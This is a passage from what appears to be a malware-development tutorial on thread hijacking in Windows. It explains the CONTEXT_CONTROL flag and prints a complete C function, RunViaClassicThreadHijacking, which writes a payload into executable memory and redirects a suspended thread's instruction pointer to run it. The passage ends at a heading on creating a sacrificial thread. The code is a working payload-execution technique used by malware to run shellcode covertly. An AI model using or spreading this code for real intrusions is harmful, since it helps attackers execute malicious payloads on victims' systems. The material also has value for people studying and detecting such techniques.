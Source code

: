 Essentially Microsoft is stating that `CONTEXT.ContextFlags` must be set to a value before calling the function. `ContextFlags` is set to the `CONTEXT_CONTROL` flag to retrieve the value of the control registers.

Therefore, setting `CONTEXT.ContextFlags` to `CONTEXT_CONTROL` is required to perform thread hijacking. Alternatively, `CONTEXT_ALL` can also be used to perform thread hijacking.

### **Thread Hijacking Function**

`RunViaClassicThreadHijacking` is a custom-built function that performs thread hijacking. The function requires 3 arguments:

* `hThread` - A handle to a **suspended** thread to be hijacked.
* `pPayload` - A pointer to the payload's base address.
* `sPayloadSize` - The size of the payload.


```
BOOL RunViaClassicThreadHijacking(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	PVOID    pAddress         = NULL;
	DWORD    dwOldProtection  = NULL;
	CONTEXT  ThreadCtx        = {
		.ContextFlags = CONTEXT_CONTROL
	};

    // Allocating memory for the payload
	pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL){
		printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Copying the payload to the allocated memory
	memcpy(pAddress, pPayload, sPayloadSize);

	// Changing the memory protection
	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the original thread context
	if (!GetThreadContext(hThread, &ThreadCtx)){
		printf("[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Updating the next instruction pointer to be equal to the payload's address
	ThreadCtx.Rip = pAddress;

	// Updating the new thread context
	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

```
### **Creating The Sacrificial Thread**
